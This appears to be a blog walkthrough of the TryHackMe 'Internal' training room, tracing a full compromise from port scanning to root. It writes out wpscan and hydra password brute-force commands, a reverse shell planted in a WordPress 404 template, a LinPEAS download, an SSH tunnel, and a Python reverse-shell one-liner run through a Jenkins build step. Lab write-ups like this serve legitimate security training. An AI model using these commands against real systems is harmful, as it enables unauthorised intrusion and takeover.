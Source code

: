 ```yaml
---
slug: internal-walkthrough
title: TryHackMe - Internal - Walkthrough
authors: bw
tags: [learning, internal, tryhackme, walkthrough]
---
```


This is a walkthrough of the [TryHackMe][thm] room: [Internal][internal]. Let’s get started!

This room is designed to be as close to a “real-world” pentest as possible. It comes with a Scope of Work (SOW) so make sure to read through that, and understand it. Then let’s start with enumeration.

# User Flag
Let’s start by scanning the server using rustscan. This is a much faster scanner than `nmap`, and I like using it because it scans all 65535 ports and then passes the open ones to `nmap`. You can find more about it [here][rustscan].

rustscan command: `rustscan -a <machine_ip> -- -A -A`

![i1](/src/img/thm/internal/i1.webp)

Looks like we have 22 and 80 open. Let’s visit the website!

![i2](/src/img/thm/internal/i2.webp)

Looks like we have a default page. We can run `dirsearch` to enumerate directories.

`dirsearch -u http://<machine_ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e html,php -t 100`

Right away we find a few options. Let’s check them out.
**NOTE:** Make sure to add the `<machine_ip> internal.thm` to your `/etc/hosts` file or some of the sites may not work.

We find a `/wordpress` directory. When we navigate there, we find a link for a login page.

![i3](/src/img/thm/internal/i3.webp)

At `/blog` we find the blog page of the wordpress site. There also is a `/phpmyadmin` page. Wow! Lot’s to work with here. I am going to leave `dirsearch` running in the background and start with WordPress. Let’s scan it! I am going to use `wpscan` for this. This can be found [here][wpscan].

`wpscan --url http://internal.thm/wordpress -e u`

![i4](/src/img/thm/internal/i4.png)

If you take a look at the enumerated users, we see an `admin` user. Let’s see if we can brute force the login!

`wpscan --url http://internal.thm/wordpress -U admin -P rockyou.txt`

![i6](/src/img/thm/internal/i6.png)

Let’s login!

Once we login, we know we can always do a reverse shell! Let’s get the reverse-shell from [here][rev-sheet]. Change the IP and Port.

Now navigate to the **Theme Editor**. Select **404 Template** from the **Theme Files**

Paste in your reverse-shell code. Start a netcat listener. `nc -nvlp 1234`

Navigate to:

`http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php`

Let’s just start by looking around. I stumble upon the `/opt` folder and there is an interesting file: `wp-save.txt` We find some credentials in here!

![i8](/src/img/thm/internal/i8.png)

Let’s try to ssh into the machine with those credentials!

We are in! Let’s see if there is a `user.txt` flag!

![i9](/src/img/thm/internal/i9.png)

# Root Flag
Now we need to do some privilege escalation. Let’s use [LinPEAS][linpeas] for this! Get it onto the system by starting a python http server:

`python3 -m http.server 80`

And then download onto the server with `wget`

`wget http://<thm_ip>/lin.sh`

Make sure to `chmod +x lin.sh` and then run it: `./lin.sh`

That didn’t come back with a ton of useful info, but there was a lot there. I did see a `jenkins.txt` in the `/home/aubreanna` directory earlier.

![i10](/src/img/thm/internal/i10.png)

We may be able to access this with `ssh` tunneling! On our machine:

`ssh -L 1235:172.17.0.2:8080 aubreanna@<machine_ip>`

In your browser, navigate to: `localhost:1235`

We have a login page!

![i11](/src/img/thm/internal/i11.png)

Let’s checkout a POST request to the server. We can try to brute force the login with `hydra`

![i12](/src/img/thm/internal/i12.png)

Use this info to create our `hydra` command:

```bash
hydra -l admin -P rockyou.txt 127.0.0.1 -s 1235 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

We found credentials!

![i13](/src/img/thm/internal/i13.png)

Login with those credentials. Let’s create a New Project. Name it whatever you want, and navigate to the **Build** tab and select: **Execute shell**. Now let’s have Jenkins execute a reverse shell back to our machine (If one doesn’t work, there are many others you can try: [Link][rev-sheet]):

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<machine_ip",2345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Save** this build. Now start a netcat listener on your machine: `nc -lvnp 2345`

Select **Build Now** in **Jenkins**.

Success! Now let’s look around! Eventually, we find a `note.txt` in `/opt`

![i14](/src/img/thm/internal/i14.webp)

Let’s `ssh` into the machine with the `root` credentials!

Now let’s print the `root.txt` flag!

![i15](/src/img/thm/internal/i15.png)

# Review
Wow. That is all I can say. This was definitely a tough one for me and took a ton of patience and looking around. Not only with the various points of entry that can eat up a lot of time, but also having to research some new ways to exploit the machine! Great job to the creator: TheMayor!

# References
[TryHackMe][thm] | [Internal Room][internal] | [Rustscan][rustscan] | [WPScan][wpscan] | [LinPEAS][linpeas] | [Reverse Shell Cheat Sheet][rev-sheet]

[thm]: https://tryhackme.com
[internal]: https://tryhackme.com/r/room/internal
[rustscan]: https://github.com/RustScan/RustScan
[wpscan]: https://github.com/wpscanteam/wpscan
[linpeas]: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
[rev-sheet]: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet